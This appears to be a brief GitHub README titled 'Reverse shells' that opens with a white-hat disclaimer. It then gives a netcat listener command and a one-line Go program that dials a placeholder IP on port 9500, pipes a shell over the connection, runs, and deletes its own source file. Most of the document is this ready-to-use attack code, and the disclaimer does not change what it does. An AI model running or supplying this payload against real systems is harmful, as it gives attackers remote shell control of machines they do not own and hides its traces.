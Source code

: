 # Reverse shells

### Introduction

- This is NOT an exploit! This requires prior privileged access on a server in order to work! I am a professional security researcher. These are white hat tools used for research purposes only. Use this responsibly. Never use this software illegally.

-   IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE 
    LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, 
    EXEMPLARY, OR CONSEQUENTIAL DAMAGES.    

    DO NOT ATTEMPT TO USE THE TOOLS TO VIOLATE THE LAW.
    THE AUTHOR IS NOT RESPONSIBLE FOR ANY ILLEGAL ACTION.
    MISUSE OF THE SOFTWARE, INFORMATION, OR SOURCE CODE
    MAY RESULT IN CRIMINAL CHARGES.
    
    Use at your own risk.

### Using netcat


```bash
nc -lvnp 9500
```

### Golang Reverse Shell running

```golang
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","00.00.00.00:9500");cmd:=exec.Command("sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/temp.go && go run /tmp/temp.go && rm /tmp/temp.go
```

